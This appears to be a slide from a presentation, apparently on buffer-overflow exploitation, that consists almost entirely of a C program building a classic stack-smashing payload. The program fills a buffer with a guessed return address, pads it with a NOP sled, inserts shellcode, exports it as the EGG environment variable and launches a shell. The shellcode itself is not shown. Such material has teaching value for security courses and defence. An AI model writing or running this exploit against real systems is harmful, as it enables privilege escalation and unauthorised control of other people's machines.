

.
.
.

void main(int argc, char *argv[]) {
    char *buff, *ptr; long *addr_ptr, addr; int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE; int i;

   if (argc > 1) bsize = atoi(argv[1]);
   if (argc > 2) offset = atoi(argv[2]);
   if (!(buff = malloc(bsize))) { printf("Can't allocate memory.\n");
      exit(0); }

   addr = get_sp() - offset;
   printf("Using address: 0x%x\n", addr);
   ptr = buff;
   addr_ptr = (long *) ptr;
   for (i = 0; i < bsize; i+=4) *(addr_ptr++) = addr;
   for (i = 0; i < bsize/2; i++) buff[i] = NOP;
   ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
   for (i = 0; i < strlen(shellcode); i++) *(ptr++) = shellcode[i];
   buff[bsize - 1] = '\0';
   memcpy(buff,"EGG=",4);
   putenv(buff);
   system("/bin/bash");
}